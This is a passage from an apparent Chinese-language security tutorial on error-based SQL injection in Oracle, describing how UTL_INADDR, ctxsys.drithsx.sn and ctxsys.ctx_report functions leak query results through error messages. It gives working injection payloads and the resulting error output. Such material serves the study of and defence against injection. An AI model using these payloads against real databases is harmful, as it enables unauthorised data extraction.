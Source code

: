 ##### 利用 UTL_INADDR 程序包功能实现报错注入

报错注入的本质就是使数据库返回一个语法等错误，并且返回错误中的某些内容我们可控，借此来获取我们需要的信息。

UTL_INADDR 程序包提供了一个PL/SQL过程来支持Internet寻址。它提供了一个API，用于检索本地和远程主机的主机名和IP地址。

UTL_INADDR 程序包是调用者的权限程序包，这意味着必须connect在分配给他或她希望连接到的远程网络主机的访问控制列表中向调用用户授予特权。

可以使用该包中的GET_HOST_ADDRESS ，GET_HOST_NAME函数来进行报错注入。

调用语法：
```UTL_INADDR.GET_HOST_NAME (ip  IN VARCHAR2 DEFAULT NULL)```

返回：host_name VARCHAR2;

由于GET_HOST_ADDRESS函数所需参数类型是varchar2，且报错时会将参数表达式结果返回，因此可以借此实现报错注入。

还可以使用GET_HOST_NAME函数进行报错攻击。

需要注意的是，执行UTL_INADDR软件包需要拥有connect权限的用户。

##### 利用 ctxsys.drithsx.sn 实现报错注入

```SQL> select * from users where id=1 and 1=(select ctxsys.drithsx.sn(1,(select user from dual))from dual);```

##### 利用 ctxsys.ctx_report.token_type 

这是一个辅助功能，可将英语名称转换为数字标记类型。

使用方法：
```sql
function token_type(
  index_name in varchar2,
  type_name  in varchar2
) return number;

SQL> select ctxsys.ctx_report.token_type((select user from dual),1) from dual;

```

结果如下：
```sql
select ctxsys.ctx_report.token_type((select user from dual),1) from dual
       *
ERROR at line 1:
ORA-20000: Oracle Text error:
DRG-10502: index SQLI does not exist
ORA-06512: at "CTXSYS.DRUE", line 160
ORA-06512: at "CTXSYS.CTX_REPORT", line 711
这种类似的可以用来报错注入的函数很多，举个例子：
SQL> select ctxsys.ctx_report.token_info('aa','xx',1)from dual;
ERROR:
ORA-20000: Oracle Text error:
DRG-10502: index AA does not exist
ORA-06512: at "CTXSYS.DRUE", line 160
ORA-06512: at "CTXSYS.CTX_REPORT", line 615
ORA-06512: at line 1

no rows selected
```
